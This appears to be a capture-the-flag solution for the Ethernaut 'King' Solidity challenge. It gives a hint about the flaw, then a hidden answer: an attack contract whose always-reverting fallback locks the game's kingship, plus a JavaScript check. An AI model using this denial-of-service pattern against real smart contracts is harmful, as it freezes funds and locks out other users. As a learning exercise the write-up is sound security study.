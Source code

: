# King

**HINT:** 
```
king.transfer(msg.value);
is called before changing the king
``` 

<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.4;

contract KillSlayer {
    
    function AllSeeingKing(address addr) public payable {
        (bool result, bytes memory data) = addr.call{value:msg.value}("");
        if(!result) revert("reverted");
    }
    
    fallback() external payable { 
        revert("me king hehe");
    }
}

```
Add the instance address<br></br>
you can check if you are the king now with:
```js
await contract._king()
```
</p>
</details>
